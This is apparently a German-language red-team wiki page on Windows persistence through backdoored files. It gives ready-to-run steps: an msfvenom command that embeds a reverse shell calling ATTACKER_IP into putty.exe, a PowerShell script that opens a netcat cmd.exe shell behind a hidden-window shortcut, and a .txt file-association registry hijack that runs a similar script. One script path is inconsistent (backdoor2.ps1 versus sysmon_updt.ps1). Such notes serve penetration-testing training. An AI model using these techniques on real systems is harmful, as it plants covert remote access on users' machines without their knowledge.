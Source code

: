 # Hintertüren in Dateien

{% hint style="info" %}
**Persistenz durch Manipulation benutzerinteragierter Dateien**

Durch unauffällige Änderungen an häufig genutzten Dateien können Backdoors installiert werden, die bei Nutzung automatisch ausgeführt werden, ohne dass die Funktionalität für den Benutzer beeinträchtigt wird.
{% endhint %}

## Ausführbare Dateien

Ein Ansatz zur Herstellung von Persistenz besteht darin, häufig genutzte ausführbare Dateien des Benutzers gezielt zu manipulieren. Findet sich beispielsweise eine Verknüpfung zu einer Anwendung wie PuTTY auf dem Desktop, lässt sich anhand der Eigenschaften feststellen, auf welche ausführbare Datei diese verweist. Diese Datei kann dann kopiert, mit einem Payload versehen und in ihrer Funktionalität beibehalten werden.

Mit _msfvenom (_ [metasploit.md](../../../../programme-skripte/metasploit.md "mention")) lässt sich ein benutzerdefinierter Payload in eine bestehende `.exe`-Datei einbetten, ohne deren ursprüngliche Funktion zu beeinträchtigen. Durch das Hinzufügen eines zusätzlichen Threads wird der Schadcode im Hintergrund ausgeführt, während das Programm weiterhin wie gewohnt arbeitet. Ein Beispiel für einen solchen Angriff wäre die Erstellung einer modifizierten PuTTY-Version mit folgendem Befehl:

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

Die daraus resultierende `puttyX.exe` startet unbemerkt eine _reverse\_tcp meterpreter_-Sitzung ([shells-reverse-shells.md](../../../../informationen/shells-reverse-shells.md "mention")) beim Benutzer. Diese Methode bietet eine effektive Möglichkeit zur Persistenz, auch wenn es noch unauffälligere Techniken gibt.

***

## Dateiverknüpfung (Shortcut-File)

Eine weitere Methode zur Herstellung von Persistenz, ohne die ursprüngliche ausführbare Datei zu verändern, besteht in der Manipulation von Verknüpfungsdateien (.lnk). Anstatt die Verknüpfung direkt auf die erwartete Anwendung verweisen zu lassen, sollte sie auf ein Skript umgeleitet werden, das zunächst eine Backdoor startet und anschließend das ursprüngliche Programm aufruft, um keinen Verdacht zu erregen.

Dazu ist wie folgt vorzugehen:

1. **Ziel der Verknüpfung analysieren:**\
   Es sollte geprüft werden, wohin die bestehende Verknüpfung zeigt (z. B. über die Eigenschaften der Datei „calc.lnk“ auf dem Desktop des Administrators).
2.  **Skript erstellen:**\
    An einem unauffälligen Ort im Dateisystem (z. B. `C:\Windows\System32`) sollte ein PowerShell-Skript erstellt werden, das eine Reverse Shell öffnet und danach das eigentliche Programm startet. Ein Beispielinhalt des Skripts könnte folgendermaßen aussehen:

    ```powershell
    Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
    Start-Process "C:\Windows\System32\calc.exe"
    ```
3.  **Verknüpfung manipulieren:**\
    Anschließend sollte die Verknüpfung so angepasst werden, dass sie nicht mehr auf die ursprüngliche ausführbare Datei, sondern auf das erstellte Skript verweist. Um eine sichtbare Veränderung für den Benutzer zu vermeiden, ist darauf zu achten, dass das Icon der Verknüpfung weiterhin auf die ursprüngliche Datei zeigt. Zusätzlich sollte das Skript im Hintergrund ausgeführt werden. Der Zielpfad der manipulierten Verknüpfung könnte wie folgt lauten:

    ```powershell
    powershell.exe -WindowStyle hidden C:\Windows\System32\sysmon_updt.ps1
    ```

Durch diese Technik wird beim Öffnen der scheinbar unveränderten Verknüpfung unbemerkt ein Schadcode ausgeführt, während die erwartete Anwendung weiterhin wie gewohnt startet.

***

## Hijacking von Dateizuordnungen

Neben der Manipulation ausführbarer Dateien oder Verknüpfungen bietet auch das Hijacking von Dateizuordnungen eine effektive Möglichkeit zur Erlangung von Persistenz. Dabei wird die Zuordnung bestimmter Dateitypen zu ihren Standardanwendungen so verändert, dass beim Öffnen dieser Dateien zusätzlich ein Schadcode ausgeführt wird.

Das Betriebssystem speichert die Standard-Dateizuordnungen in der Windows-Registrierung unter dem Pfad:

```
HKLM\Software\Classes\
```

Für jeden Dateityp existiert ein Unterschlüssel (z. B. `.txt`), der einem sogenannten _Programmatic Identifier_ (ProgID) zugeordnet ist – im Fall von `.txt`-Dateien üblicherweise `txtfile`. Dieser ProgID verweist auf ein weiteres Registry-Objekt unter demselben Pfad, beispielsweise:

```
HKLM\Software\Classes\txtfile\
```

<figure><img src="../../../../.gitbook/assets/grafik (11) (1).png" alt=""><figcaption></figcaption></figure>

Dort befindet sich unter `shell\open\command` der Befehl, den das System beim Öffnen einer Datei dieses Typs ausführt. Für `.txt`-Dateien lautet dieser in der Regel:

```
%SystemRoot%\system32\NOTEPAD.EXE %1
```

<figure><img src="../../../../.gitbook/assets/grafik (12) (1).png" alt=""><figcaption></figcaption></figure>

Um diese Zuordnung zu kompromittieren, sollte folgendermaßen vorgegangen werden:

1.  **Skript vorbereiten:**\
    Ein PowerShell-Skript sollte erstellt und an einem unauffälligen Ort abgelegt werden, z. B. unter `C:\Windows\backdoor2.ps1`. Dieses Skript führt zunächst einen Reverse Shell Payload aus und ruft anschließend die ursprüngliche Anwendung mit der übergebenen Datei auf. Der Inhalt des Skripts könnte folgendermaßen aussehen:

    ```powershell
    Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
    C:\Windows\system32\NOTEPAD.EXE $args[0]
    ```

    Dabei ist `$args[0]` notwendig, da es dem übergebenen Dateinamen (`%1`) entspricht.
2.  **Registry-Eintrag ändern:**\
    Der Standardwert unter dem Schlüssel `HKLM\Software\Classes\txtfile\shell\open\command` sollte nun so angepasst werden, dass anstelle von Notepad das zuvor erstellte Skript ausgeführt wird. Um eine unauffällige Ausführung zu gewährleisten, sollte PowerShell im versteckten Fenstermodus gestartet werden. Der neue Befehl könnte wie folgt aussehen:

    ```
    powershell.exe -WindowStyle hidden C:\Windows\System32\sysmon_updt.ps1 "%1"
    ```

<figure><img src="../../../../.gitbook/assets/grafik (13) (1).png" alt=""><figcaption><p>Ausführung eines Skripts beim Öffnen der Datei mit Endung (hier .txt)</p></figcaption></figure>

Durch diese Änderung wird beim Öffnen einer `.txt`-Datei der Schadcode im Hintergrund ausgeführt, während Notepad wie gewohnt geöffnet wird – für den Benutzer bleibt der Vorgang somit unverdächtig.
